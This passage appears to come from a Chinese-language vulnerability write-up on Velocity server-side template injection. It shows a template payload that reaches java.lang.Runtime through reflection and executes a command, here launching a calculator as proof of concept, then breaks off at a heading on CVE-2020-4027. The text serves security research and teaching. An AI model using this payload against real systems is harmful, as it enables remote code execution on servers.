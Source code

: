 执行结果

![](./img/9ee0f47ec5834a62a6af81f02811b1e7.png)

##### 如何作为 RCE Sink 触发

```vm
#*
  定义一个变量 $clazz, 是字符串类型
  通过 String 类型变量的 getClass() 方法取运行时类的对象 $obj
  通过 Class 的静态方法 forName() 获取可供命令执行的类的对象 $rt
  通过反射调用 getRuntime 获取 java.lang.Runtime 的实例并调用静态方法执行命令
*#

#set($clazz="str")
$clazz.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('calc')
```

执行结果

![](./img/57b8e0ce7c75467b93fd916498d14e3e.png)

#### 0x03 CVE-2020-4027 post-auth RCE

安全公告
